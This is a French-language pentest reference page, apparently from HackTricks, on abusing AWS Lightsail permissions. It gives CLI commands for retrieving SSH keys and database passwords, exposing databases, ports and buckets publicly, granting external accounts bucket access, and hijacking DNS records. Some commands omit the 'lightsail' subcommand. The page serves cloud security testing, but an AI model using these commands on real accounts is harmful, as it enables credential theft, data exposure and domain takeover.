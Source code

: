 # AWS - Lightsail Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Lightsail

Pour plus d'informations sur Lightsail, consultez :

{{#ref}}
../../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Il est important de noter que Lightsail **n'utilise pas les IAM roles appartenant à l'utilisateur** mais un compte géré par AWS, donc vous ne pouvez pas abuser de ce service pour privesc. Cependant, des **données sensibles** telles que du code, des API keys et des informations de base de données peuvent être trouvées dans ce service.

### `lightsail:DownloadDefaultKeyPair`

Cette permission vous permettra d'obtenir les clés SSH pour accéder aux instances :
```
aws lightsail download-default-key-pair
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:GetInstanceAccessDetails`

Cette permission vous permettra de générer des clés SSH pour accéder aux instances :
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potential Impact:** Trouver des informations sensibles dans les instances.

### `lightsail:CreateBucketAccessKey`

Cette permission vous permettra d'obtenir une clé pour accéder au bucket :
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impact potentiel :** Trouver des informations sensibles dans le bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Cette permission vous permettra d'obtenir les identifiants pour accéder à la base de données :
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impact potentiel :** Trouver des informations sensibles dans la base de données.

### `lightsail:UpdateRelationalDatabase`

Cette permission vous permettra de changer le mot de passe d'accès à la base de données :
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Si la base de données n'est pas publique, vous pouvez aussi la rendre publique avec ces permissions.
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Impact potentiel :** Trouver des informations sensibles dans la base de données.

### `lightsail:OpenInstancePublicPorts`

Cette permission permet d'ouvrir des ports sur Internet
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accéder à des ports sensibles.

### `lightsail:PutInstancePublicPorts`

Cette permission permet d'ouvrir des ports vers Internet. Notez que l'appel fermera tout port ouvert qui n'est pas spécifié.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potential Impact:** Accès aux ports sensibles.

### `lightsail:SetResourceAccessForBucket`

Cette permission permet de donner à des instances l'accès à un bucket sans credentials supplémentaires.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Impact potentiel :** Nouvel accès possible à des buckets contenant des informations sensibles.

### `lightsail:UpdateBucket`

Avec cette permission, un attaquant pourrait accorder à son propre compte AWS un accès en lecture aux buckets ou même rendre les buckets publics pour tout le monde :
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impact potentiel :** Accès potentiel à de nouveaux buckets contenant des informations sensibles.

### `lightsail:UpdateContainerService`

Avec cette permission, un attaquant pourrait accorder l'accès à des ECR privés depuis le service containers.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impact potentiel :** Obtenir des informations sensibles depuis un ECR privé

### `lightsail:CreateDomainEntry`

Un attaquant disposant de cette permission pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (subdomain takeover), ou créer un enregistrement SPF qui lui permet de spoof des e-mails depuis le domaine, ou même pointer le domaine principal vers sa propre adresse IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prise de contrôle d'un domaine

### `lightsail:UpdateDomainEntry`

Un attaquant disposant de cette permission pourrait créer un sous-domaine et le pointer vers sa propre adresse IP (subdomain takeover), ou créer un enregistrement SPF qui lui permet de spoof emails depuis le domaine, voire configurer le domaine principal pour qu'il pointe vers sa propre adresse IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prise de contrôle d'un domaine

{{#include ../../../../banners/hacktricks-training.md}}
